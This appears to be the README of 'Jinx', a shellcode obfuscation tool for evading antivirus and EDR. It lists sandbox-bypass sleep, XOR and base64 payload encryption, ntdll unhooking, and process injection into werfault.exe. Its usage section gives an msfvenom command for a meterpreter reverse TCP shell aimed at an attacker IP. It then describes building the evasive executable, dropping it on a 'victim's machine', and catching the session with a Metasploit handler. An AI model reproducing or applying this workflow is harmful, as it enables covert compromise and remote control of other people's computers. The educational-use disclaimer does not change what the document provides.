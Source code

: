 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Requirements
Jinx requires [Python3](https://www.python.org/) and a C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/)).

## Usage
In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:
```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - **obfuscatedPayload.bin** with the key - **key.bin**.

Open Visual Studio, create a project and drop the following files into the project's directory:

base64.cpp, main.cpp, ntdll.cpp, base64.h, ntdll.h, resource.h, resource.rc ,key.bin, obfuscatedPayload.bin

![project's_directory](https://gitlab.com/RonKon/crypter/-/blob/develop/images/project's_directory.PNG?raw=true)

then import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (resource.rc ,key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable in the victim's machine.

![solution_explorer](https://gitlab.com/RonKon/crypter/-/blob/develop/images/solution_explorer.PNG?raw=true)

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Authors and acknowledgment
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
